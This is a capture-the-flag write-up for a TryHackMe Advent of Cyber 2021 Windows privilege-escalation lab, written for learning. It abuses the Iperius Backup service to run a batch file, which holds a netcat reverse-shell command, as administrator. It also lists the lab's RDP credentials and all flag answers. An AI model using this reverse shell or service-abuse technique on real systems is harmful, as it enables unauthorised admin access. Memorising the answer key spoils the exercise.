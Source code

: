 # TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan! (Networking)
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows 
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../knowledge-base/vulnerabilities/privesc.md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [privesc](../../../knowledge-base/vulnerabilities/privesc.md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar in the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup tasks by clicking the left-most icon on the menu bar and configure as follows. 

![Creating a Backup Task](AoC-2021_Photos/Day_13/01_AoC-Day-13_12-29-21-Iperius.png)

#### Source

In the `Items` tab on this screen select file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 

![Backup Path](AoC-2021_Photos/Day_13/02_AoC_Day_13_12-29-21-Backup-Path.png)

#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Docuemnts` folder. 

![Destination Path](AoC-2021_Photos/Day_13/03_AoC_Day_13_12-29-21-Destination.png)

#### Executable

Here comes the exploit. In the `Other Processes` tab we can choose to run a program prior to the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 

![Editing Evil.bat](AoC-2021_Photos/Day_13/04_AoC_Day_13_12-29-21-Editing-Evil-Bat.png)

Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program wiith `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great hing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 

![nc Listening](AoC-2021_Photos/Day_13/06_AoC_Day_13_12-29-21-Listening.png)

Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>

![Shell Connected](AoC-2021_Photos/Day_13/07_AoC_Day_13_12-29-21-Payload-Confirmed.png)

Great! That payload works, now we just need to run it as administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 

![Selecting evil.bat](AoC-2021_Photos/Day_13/05_AoC_Day_13_12-29-21-Selecting-Evil-File.png)

Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!

![Running Evil Backup](AoC-2021_Photos/Day_13/09_AoC_Day_13_12-29-21-Running-Evil-Backup.png)

If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 

![The Grinch Shell](AoC-2021_Photos/Day_13/10_AoC_Day_13_12-29-21-THEGRINCH.png)

Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 

![net users Info](AoC-2021_Photos/Day_13/11_AoC_Day_13_12-29-21-net-users.png)

### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```

![OS Version](AoC-2021_Photos/Day_13/12_AoC_Day_13_12-29-21-OS-Version.png)

### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 

![wmic Backup Search](AoC-2021_Photos/Day_13/13_AoC_Day_13_12-29-21-wmic-Iperius.png)

You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 

![whoami](AoC-2021_Photos/Day_13/14_AoC_Day_13_12-29-21-THEGRINCH.png)

### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```

![Flag and Schedule](AoC-2021_Photos/Day_13/15_AoC_Day_13_12-29-21-Flag-and-Schedule.png)

And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](Day%2014%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
